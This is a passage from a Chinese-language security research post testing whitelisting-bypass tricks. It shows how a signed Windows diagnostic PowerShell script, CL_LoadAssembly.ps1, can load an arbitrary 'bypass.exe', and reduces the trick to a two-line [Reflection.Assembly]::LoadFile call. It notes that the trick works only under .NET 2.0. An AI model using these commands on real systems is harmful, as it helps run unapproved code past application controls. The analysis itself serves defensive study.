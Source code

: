 互换后的代码如下：


```
$bytes = [System.IO.File]::ReadAllBytes("C:\6\ConsoleApplication5.exe")
[Reflection.Assembly]::Load($bytes)
[ConsoleApplication5.Program]::test()
```


```
cd C:\windows\diagnostics\system\AERO
import-module .\CL_LoadAssembly.ps1
LoadAssemblyFromPath ..\..\..\..\6\bypass.exe
[aaa]::bbb()
```

经过以上测试，可以推断如下两段代码等价：

```
cd C:\windows\diagnostics\system\AERO
import-module .\CL_LoadAssembly.ps1
LoadAssemblyFromPath ..\..\..\..\6\bypass.exe
```

```
[Reflection.Assembly]::LoadFile("C:\6\bypass.exe")
```


依照以上推断，我们可以对Casey Smith的利用代码进行精简，最短的powershell实现代码如下：


```
[Reflection.Assembly]::LoadFile("C:\6\bypass.exe")
[aaa]::bbb()
```


### 4、适用条件

实际测试，以上两种方法适用.net 2.0，如果换成.net 4.0编译，在执行时会报错


## 0x05 小结 
---

本文分别对bohops和Casey Smith的方法做了测试，找到方法的本质是分别使用了Assembly的LoadFile和Load方法。经实际测试，得出该方法只适用于.Net 2.0环境


---


[LEAVE A REPLY](https://github.com/3gstudent/feedback/issues/new)


